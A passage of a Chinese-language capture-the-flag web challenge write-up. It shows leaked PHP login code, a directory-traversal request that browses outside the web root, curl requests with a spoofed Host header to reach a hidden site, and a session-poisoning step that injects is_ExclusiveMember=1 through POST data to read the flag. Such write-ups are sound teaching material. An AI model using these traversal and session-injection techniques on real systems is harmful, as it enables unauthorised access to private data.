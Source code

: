 访问里面的页面可以得到源码

:~# curl http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666/LOGIN_HEAD

```
#!php
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?> 
复制代码
```

但是Flag并不在里面，而是是藏在另外一个web服务之中。在这个目录下可以看到。

```
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../../../home/devilish.local/__WebSiteFuckingPrivateContentNotForPublic666%2b666 
复制代码
```

这个server中的INDEX文件输出了Flag

```
#!html
:~# curl "http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666%2b666/INDEX" -H "Host: devilish.local"
<br/>
        This is the private Portal of us<br/><br/>
        If you are accessing this page this means you are one of the very few exclusive members who are allowed to come in here!<br/> 

<br/>
<?php echo($logged?"Here's your secret ".$flag."<br/><br/>":"Login to access the secret<br/><br/>")?>

<span class="styleX">s</span> 
复制代码
```

研究一下代码可以发现，这两个系统其实使用同一套session,我们可以先在默认的系统登录，这里要在POST数据里提交is_ExclusiveMember=1，因为$_SESSION=$_POST，会被同步到Session之中。

再去访问devilish.local,即可得到flag